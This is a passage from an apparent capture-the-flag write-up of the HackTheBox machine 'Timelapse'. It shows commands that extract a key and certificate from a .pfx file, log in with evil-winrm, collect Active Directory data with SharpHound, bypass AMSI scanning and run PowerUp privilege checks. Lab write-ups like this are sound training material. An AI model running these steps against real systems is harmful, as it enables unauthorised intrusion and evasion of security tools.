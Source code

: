 ```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out auth.key -nodes
```

Extract cert file:

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out auth.crt
```

Connect using evil-winrm:

```bash
evil-winrm -S -c auth.crt -k auth.key -i timelapse.htb
```

![image.png](image%208.png)

## Shell as svc_deploy

Enumeration - BloodHound

```powershell
.\SharpHound.exe -c All --zipfilename timelapse
```

User `TRX` has DCSync privileges:

![image.png](image%209.png)

```powershell
net user svc_deploy
```

![image.png](image%2010.png)

User `svc_deploy` is in `LAPS_Readers`.

I didn’t find interesting paths, then I tried running PowerUp.ps1, but some kind of protection prevented me, I used:

```powershell
Bypass-4MSI
```

of evil-winrm:

![image.png](image%2011.png)

Then ran:

```powershell
Invoke-AllChecks
```

But, found nothing.

I remember that LAPS was installed, and we can see that from listing x64 applications:

```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
